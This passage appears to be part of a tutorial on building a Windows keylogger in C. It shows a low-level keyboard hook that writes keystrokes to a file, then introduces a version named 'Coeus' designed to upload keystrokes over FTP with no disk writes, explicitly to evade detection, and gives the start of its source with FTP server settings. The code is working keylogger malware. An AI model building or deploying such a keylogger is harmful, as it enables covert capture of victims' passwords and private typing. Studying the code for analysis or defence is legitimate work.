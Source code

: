 ```c

LRESULT CALLBACK LowLevelKeyboardProc(int nCode, WPARAM wParam, LPARAM lParam) {
	if (nCode == HC_ACTION) {
		if (wParam == WM_KEYDOWN) {
			KBDLLHOOKSTRUCT *kbd = (KBDLLHOOKSTRUCT *)lParam;
			DWORD vkCode = kbd->vkCode;
			
			if (vkCode >= 0x30 && vkCode <= 0x5A) {
				FILE *fp = fopen(KEYLOG_FILE, "a+");
				
				fputc(vkCode, fp);
				
				fclose(fp);
			}
		}
	}
	
	return CallNextHookEx(NULL, nCode, wParam, lParam);
}
```

## 02 - Through FTP

### Keylogging Functionality

Recall that the most basic of keyloggers should record the keystrokes as analyzed in the previous paper. For my implementation, some extra functionality will be included to make it more plausible and effective in doing its job in the outside world. As a natural result, the code will be slightly more advanced than what was already covered. The features of the keylogger are as follows:

1. Threaded keystroke logging using Windows hooks
2. Threaded keystroke uploads using FTP
3. Zero disk activity

Using Windows hooks to capture keystrokes is a common method utilized by many existing keyloggers. A reason why it may be is because it takes advantage of threading and events which makes it efficient in the aspect of CPU consumption. Another, with regards to malware, many legitimate programs could also implement this function to achieve their own goals.

A vital problem with older generations of malware is that they write the keystrokes to disk and because of this, it generates some noise when doing so which could lead to its undoing. One way to combat this weakness is to directly process all keystrokes within memory and push them out through the network. Of course, this does have its downsides. If the program is always constantly sending the keystrokes out, it will become suspicious however, the rate at which this happens can be controlled to some extent.

Before we see any of the code in the functions, let me introduce the headers, macros and global variable declarations.

```c
#include <stdio.h>
#include <string.h>
#include <windows.h>
#include <wininet.h>
#include <shlobj.h>

#pragma comment(lib, "wininet.lib")

#define DEBUG

#define NAME "Coeus"

// FTP settings
#define FTP_SERVER "127.0.0.1"
#define FTP_USERNAME "dtm"
```